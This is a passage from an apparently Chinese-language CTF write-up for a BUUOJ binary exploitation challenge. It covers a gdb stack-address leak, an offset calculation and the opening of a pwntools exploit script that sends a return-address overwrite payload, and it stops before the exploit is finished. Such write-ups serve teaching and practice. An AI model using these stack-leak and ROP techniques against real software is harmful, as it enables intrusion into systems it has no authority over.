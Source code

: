 看一下现在栈上写入'aaaaaaaa'的地址

```bash
x/8gx 0x7fffffffdea0
```

[![](assets/1701612132-5b6316a0576c999958432aeca726c40b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001523-44a4b7d2-3d19-1.png)

这里显然就是栈上的位置了，所以我们这样其实就泄露了栈地址

```bash
0x7fffffffdfb8-0x7fffffffdea0=0x118
```

我们现在已经知道了偏移量了，现在就是不知道这个地址到写入 binsh 的电地址的距离，可以利用 vuln() 中的 write 打印出来。

exp:

```bash
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",27757)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

vuln=elf.symbols['vuln']
leak('vuln',vuln)

gadget=0x00000000004004DA
syscall_ret=0x0000000000400517

pl='a'*0x10+p64(vuln)
s(pl)
```